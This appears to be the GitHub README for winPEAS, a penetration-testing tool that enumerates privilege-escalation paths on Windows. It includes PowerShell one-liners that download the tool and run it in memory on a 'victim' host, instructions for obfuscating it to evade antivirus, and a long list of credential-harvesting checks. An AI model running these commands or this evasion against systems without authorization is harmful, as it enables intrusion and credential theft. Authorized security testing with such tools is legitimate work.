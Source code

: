 # Windows Privilege Escalation Awesome Script (.exe)

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)**

[![youtube](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/screen.png)](https://youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https://github.com/carlospolop/PEASS-ng/releases/latest)** or **compile it yourself** (read instructions for compilation).

```bash
# Get latest release
$latestRelease = Invoke-WebRequest https://github.com/carlospolop/PEASS-ng/releases/latest -Headers @{"Accept"="application/json"}
$json = $latestRelease.Content | ConvertFrom-Json
$latestVersion = $json.tag_name
$url = "https://github.com/carlospolop/PEASS-ng/releases/download/$latestVersion/winPEASany.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# Before cmd in 3 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  #Execute also additional LOLBAS search check
```

## Help
```
quiet                Do not print banner
notcolor             Don't use ansi colors (all white)
systeminfo           Search system information
userinfo             Search user information
processinfo          Search processes information
servicesinfo         Search services information
applicationsinfo     Search installed applications information
networkinfo          Search network information
windowscreds         Search windows credentials
browserinfo          Search browser information
filesinfo            Search files that can contains credentials
eventsinfo           Display interesting events information
wait                 Wait for user input between checks
debug                Display debugging information - memory usage, method execution time
log=[logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

Additional checks (slower):
-lolbas              Run additional LOLBAS check
-linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
                     (default: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https://github.com/GhostPack/Seatbelt)**.

## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).


## Instructions to compile you own obfuscated version

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*. 

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASexe/images/dotfuscator.PNG)


## Colors

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/images/colors.png)

## Checks

<details>
  <summary>Details</summary>
    
- **System Information**
  - [x] Basic System info information
  - [x] Use Watson to search for vulnerabilities
  - [x] Enumerate Microsoft updates
  - [x] PS, Audit, WEF and LAPS Settings
  - [x] LSA protection
  - [x] Credential Guard
  - [x] WDigest
  - [x] Number of cached cred
  - [x] Environment Variables
  - [x] Internet Settings
  - [x] Current drives information
  - [x] AV
  - [x] Windows Defender
  - [x] UAC configuration
  - [x] NTLM Settings
  - [x] Local Group Policy
  - [x] Applocker Configuration & bypass suggestions
  - [x] Printers
  - [x] Named Pipes
  - [x] AMSI Providers
  - [x] SysMon
  - [x] .NET Versions
  
- **Users Information**
  - [x] Users information
  - [x] Current token privileges
  - [x] Clipboard text
  - [x] Current logged users
  - [x] RDP sessions
  - [x] Ever logged users
  - [x] Autologin credentials
  - [x] Home folders
  - [x] Password policies
  - [x] Local User details
  - [x] Logon Sessions

- **Processes Information**
  - [x] Interesting processes (non Microsoft)

- **Services Information**
  - [x] Interesting services (non Microsoft) information
  - [x] Modifiable services
  - [x] Writable service registry binpath
  - [x] PATH Dll Hijacking

- **Applications Information**
  - [x] Current Active Window
  - [x] Installed software
  - [x] AutoRuns
  - [x] Scheduled tasks
  - [x] Device drivers

- **Network Information**
  - [x] Current net shares
  - [x] Mapped drives (WMI)
  - [x] hosts file
  - [x] Network Interfaces
  - [x] Listening ports
  - [x] Firewall rules
  - [x] DNS Cache (limit 70)
  - [x] Internet Settings

- **Windows Credentials**
  - [x] Windows Vault
  - [x] Credential Manager
  - [x] Saved RDP settings
  - [x] Recently run commands
  - [x] Default PS transcripts files
  - [x] DPAPI Masterkeys
  - [x] DPAPI Credential files
  - [x] Remote Desktop Connection Manager credentials
  - [x] Kerberos Tickets
  - [x] Wifi
  - [x] AppCmd.exe
  - [x] SSClient.exe
  - [x] SCCM
  - [x] Security Package Credentials
  - [x] AlwaysInstallElevated
  - [x] WSUS
  
- **Browser Information**
  - [x] Firefox DBs
  - [x] Credentials in firefox history
  - [x] Chrome DBs
  - [x] Credentials in chrome history
  - [x] Current IE tabs
  - [x] Credentials in IE history
  - [x] IE Favorites
  - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
  - [x] Putty sessions
  - [x] Putty SSH host keys
  - [x] SuperPutty info
  - [x] Office365 endpoints synced by OneDrive
  - [x] SSH Keys inside registry
  - [x] Cloud credentials
  - [x] Check for unattended files
  - [x] Check for SAM & SYSTEM backups
  - [x] Check for cached GPP Passwords
  - [x] Check for and extract creds from McAffe SiteList.xml files
  - [x] Possible registries with credentials
  - [x] Possible credentials files in users homes
  - [x] Possible password files inside the Recycle bin
  - [x] Possible files containing credentials (this take some minutes)
  - [x] User documents (limit 100)
  - [x] Oracle SQL Developer config files check
  - [x] Slack files search
  - [x] Outlook downloads
  - [x] Machine and user certificate files
  - [x] Office most recent documents
  - [x] Hidden files and folders
  - [x] Executable files in non-default folders with write permissions  
  - [x] WSL check 

- **Events Information**
  - [x] Logon + Explicit Logon Events
  - [x] Process Creation Events
  - [x] PowerShell Events
  - [x] Power On/Off Events
  
- **Additional (slower) checks**
  - [x] LOLBAS search
  - [x] run **[linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Please, if this tool has been useful for you consider to donate

[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://www.patreon.com/peass)

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.


By Polop<sup>(TM)</sup>, makikvues (makikvues2[at]gmail[dot].com)

